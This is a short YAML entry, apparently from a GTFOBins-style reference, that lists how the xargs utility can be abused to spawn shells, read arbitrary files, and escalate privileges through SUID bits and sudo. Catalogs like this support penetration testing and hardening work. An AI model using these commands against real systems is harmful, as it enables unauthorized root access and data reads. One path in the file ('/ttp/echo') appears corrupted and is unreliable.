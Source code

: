 ```yaml
---
functions:
  shell:
    - description: GNU version only.
      code: xargs -a /dev/null sh
    - code: echo x | xargs -Iy sh -c 'exec sh 0<&1'
    - description: Read interactively from `stdin`.
      code: |
        xargs -Ix sh -c 'exec sh 0<&1'
        x^D^D
  file-read:
    - description: This works as long as the file does not contain the NUL character, also a trailing `$'\n'` is added. The actual `/ttp/echo` command is executed. GNU version only.
      code: |
        LFILE=file_to_read
        xargs -a "$LFILE" -0
  suid:
    - description: GNU version only.
      code: ./xargs -a /dev/null sh -p
  sudo:
    - description: GNU version only.
      code: sudo xargs -a /dev/null sh
---
```

